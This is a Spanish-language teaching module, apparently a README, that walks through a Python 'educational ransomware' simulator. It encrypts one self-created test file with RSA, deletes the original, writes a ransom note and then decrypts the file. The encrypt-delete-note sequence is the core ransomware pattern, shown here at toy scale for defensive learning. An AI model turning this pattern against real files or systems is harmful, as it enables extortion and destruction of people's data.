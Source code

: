 # 🧩 MÓDULO DE APRENDIZAJE: **Construcción Ética de un Ransomware Educativo con RSA**

## 🎯 Objetivo General

Comprender la lógica, estructura y técnicas utilizadas por el ransomware moderno, implementando un **simulador educativo con cifrado RSA**, sin causar daños reales.

## 🧠 Objetivos Específicos

✅ Entender el funcionamiento interno de un ransomware.

✅ Aplicar cifrado asimétrico (RSA) para bloquear archivos.

✅ Implementar un "simulador inofensivo" de ransomware en Python.

✅ Fomentar el pensamiento crítico y ético en ciberseguridad.

## 📚 Escenario Didáctico

> 💼 Eres un Analista de Ciberseguridad en una empresa de tecnología. Tu tarea es crear un **entorno controlado de simulación** para enseñar cómo funciona un ataque de ransomware. El objetivo es **aprender a defenderse**.

## 🧰 Herramientas Necesarias

- 🔗 Google Colab o VSCode con Python instalado
- 📦 Bibliotecas: `cryptography`, `os`, `base64`
- 🗃️ Archivos de prueba `.txt`, `.pdf` o `.docx`
- ⚠️ ¡Nunca usar con archivos reales de producción!

## 🔨 Actividad Paso a Paso

### 🔐 Paso 1: Instalación de librerías

```python
!pip install cryptography
```

### 📦 Paso 2: Importar módulos necesarios

```python
from cryptography.hazmat.primitives.asymmetric import rsa, padding
from cryptography.hazmat.primitives import serialization, hashes
import os
```

### 🛠️ Paso 3: Generar par de claves RSA

```python
private_key = rsa.generate_private_key(
    public_exponent=65537,
    key_size=2048,
)

public_key = private_key.public_key()
```

### 📂 Paso 4: Crear archivos de prueba

```python
with open("documento_confidencial.txt", "w") as f:
    f.write("⚠️ Este es un documento importante que será cifrado.")
```

### 🔏 Paso 5: Cifrar el archivo (simulación del ataque)

```python
# Leer archivo
with open("documento_confidencial.txt", "rb") as f:
    datos = f.read()

# Cifrar
datos_cifrados = public_key.encrypt(
    datos,
    padding.OAEP(
        mgf=padding.MGF1(algorithm=hashes.SHA256()),
        algorithm=hashes.SHA256(),
        label=None
    )
)

# Guardar archivo cifrado
with open("documento_confidencial.cifrado", "wb") as f:
    f.write(datos_cifrados)

# Eliminar el archivo original (simulado)
os.remove("documento_confidencial.txt")
```

🧨 ¡BOOM! El archivo fue **cifrado** y el original **eliminado**. Este es el efecto típico de un ransomware real (pero aquí de forma segura) 🔒💣

### 📝 Paso 6: Simular la "nota de rescate"

```python
with open("LEEME.txt", "w") as f:
    f.write("""
    🧠 Simulador Educativo de Ransomware
    
    Tus archivos han sido cifrados usando RSA 🔐.
    Esto es solo una práctica de ciberseguridad 🧑‍💻.
    Para restaurarlos, ejecuta el código de descifrado.
    """)

print("📝 Nota de rescate creada con éxito.")
```

### 🔓 Paso 7: Recuperar archivo con la clave privada

```python
# Leer archivo cifrado
with open("documento_confidencial.cifrado", "rb") as f:
    datos_encriptados = f.read()

# Descifrar
datos_descifrados = private_key.decrypt(
    datos_encriptados,
    padding.OAEP(
        mgf=padding.MGF1(algorithm=hashes.SHA256()),
        algorithm=hashes.SHA256(),
        label=None
    )
)

# Restaurar el archivo original
with open("documento_recuperado.txt", "wb") as f:
    f.write(datos_descifrados)

print("✅ Archivo restaurado exitosamente.")
```

## 🧭 Conclusiones Éticas

⚠️ Este módulo no busca enseñar a hacer daño, sino **entender para proteger mejor**. El conocimiento sin ética puede ser un arma, pero con responsabilidad, es una defensa poderosa. 💡🛡️

## 🧠 ¿Qué aprendiste?

| Competencia         | Logro       |
| ------------------- | ----------- |
| Cifrado RSA         | ✔️ Aplicado  |
| Simulación segura   | ✔️ Ejecutada |
| Pensamiento crítico | ✔️ Promovido |
| Defensa activa      | ✔️ Reforzada |